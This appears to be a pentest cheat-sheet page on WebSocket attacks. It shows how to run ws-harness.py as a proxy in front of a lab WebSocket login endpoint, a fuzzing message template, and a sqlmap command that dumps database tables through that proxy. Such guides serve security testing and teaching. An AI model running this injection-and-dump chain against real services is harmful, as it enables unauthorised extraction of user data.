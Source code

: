 # Web Sockets Attacks

> The WebSocket protocol allows a bidirectional and full-duplex communication between a client and a server

## Summary

* [Tools](#tools)
* [Using ws-harness.py](#using-ws-harness-py)

## Tools

* [ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)

## Using ws-harness.py

Start ws-harness to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{"auth_user":"dGVzda==", "auth_pass":"[FUZZ]"}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```


## References

- [HACKING WEB SOCKETS: ALL WEB PENTEST TOOLS WELCOMED by Michael Fowl | Mar 5, 2019](https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Qualys - Mike Shema, Sergey Shekyan, Vaagn Toukharian](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
